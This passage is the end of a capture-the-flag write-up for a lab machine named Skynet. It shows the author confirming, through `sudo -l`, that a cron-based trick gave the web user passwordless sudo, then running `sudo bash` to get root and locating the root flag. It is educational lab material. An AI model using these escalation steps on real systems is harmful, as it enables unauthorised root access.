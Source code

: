 I wait for a minute so that the cron job will run and check `sudo -l`:

```
User www-data may run the following commands on skynet:
    (root) NOPASSWD: ALL
```

It worked! We now have full sudo privileges without needing a password.

<br>

## Root

I run a simple `sudo bash` command and escalate to root:

```
www-data@skynet:/var/www/html$ sudo bash
root@skynet:/var/www/html# whoami
root
root@skynet:/var/www/html# hostname
skynet
```

And in /root we find the root.txt flag waiting for us:

`wc -c /root/root.txt`

```
33 /root/root.txt
```

<br>

With that we've completed this CTF!

![](images/skynet11.png)

<br>

## Conclusion
